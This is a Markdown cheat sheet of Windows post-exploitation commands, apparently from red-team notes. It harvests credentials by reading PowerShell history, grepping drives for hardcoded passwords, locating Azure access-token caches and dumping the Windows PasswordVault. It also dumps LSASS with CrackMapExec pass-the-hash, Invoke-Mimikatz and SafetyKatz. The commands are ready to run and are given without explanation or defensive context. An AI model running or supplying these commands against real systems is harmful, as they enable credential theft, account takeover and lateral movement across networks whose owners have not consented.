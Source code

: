 #### Get powershell history path and cat history
```
Get-PSReadlineOption
cat <path>
```

#### Look for powershell history files
```
Get-Childitem -Path C:\Users\* -Force -Include *ConsoleHost_history* -Recurse -ErrorAction SilentlyContinue
```

#### Look for hardcoded passwords in scripts
```
Get-ChildItem -path C:\*  -Recurse -Include *.xml,*.ps1,*.bat,*.txt  | Select-String "password"| Export-Csv C:\Scripts\Report.csv -NoTypeInformation
Get-ChildItem -path C:\*  -Recurse -Include *.xml,*.ps1,*.bat,*.txt  | Select-String "creds"| Export-Csv C:\Scripts\Report.csv -NoTypeInformation
```

#### Check for Azure tokens
```
Get-ChildItem -path "C:\Users\*" -Recurse -Include *accessTokens.json*, *TokenCache.dat*, *AzureRmContext.json*
```

#### Dump password vault
```
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | % { $_.RetrievePassword();$_ }
```

## Dumping LSASS
#### Crackmapexec
```
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH> --lsa
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH> -M lsassy
```

#### DumpCreds
```
Invoke-MimiKatz -DumpCreds
```

#### Dump credentials on a local machine using Mimikatz.
```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 
```

#### Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
```
SafetyKatz.exe "sekurlsa::ekeys"
```
